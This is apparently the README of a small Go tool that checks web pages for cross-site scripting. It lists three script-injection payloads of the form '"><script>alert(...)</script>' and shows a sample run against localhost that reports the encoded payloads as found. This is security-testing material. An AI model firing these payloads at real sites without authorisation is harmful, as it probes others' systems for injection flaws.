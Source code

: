 ##  Check For Xss 

### Payload
1.  you can add payload in xss/payload.txt
	
	"><script>alert("A");</script>
	"><script>alert("B");</script>
	\"><script>alert("C");</script>


### How to use

 	$ go run main.go  -enum=xss -url='https://localhost/lowongan/browse?keywords=aaaaa'
	[+] Checking For Xss ..
	[+] Open Payload from file ..
	[+] Parsing Query:  localhost ..
	[+] XSS Found at :  https://localhost/lowongan/browse?keywords=%22%3E%3Cscript%3Ealert%28%22A%22%29%3B%3C%2Fscript%3E
	[+] XSS Found at :  https://localhost/lowongan/browse?keywords=%22%3E%3Cscript%3Ealert%28%22B%22%29%3B%3C%2Fscript%3E
	[+] XSS Found at :  https://localhost/lowongan/browse?keywords=%5C%22%3E%3Cscript%3Ealert%28%22C%22%29%3B%3C%2Fscript%3E
	[+] Finished !!!

 	
--enum= this type 
--url= url will check
	
&copy; [Rahmat Wahyu Hadi](https://github.com/wahyuhadi/) - 2019
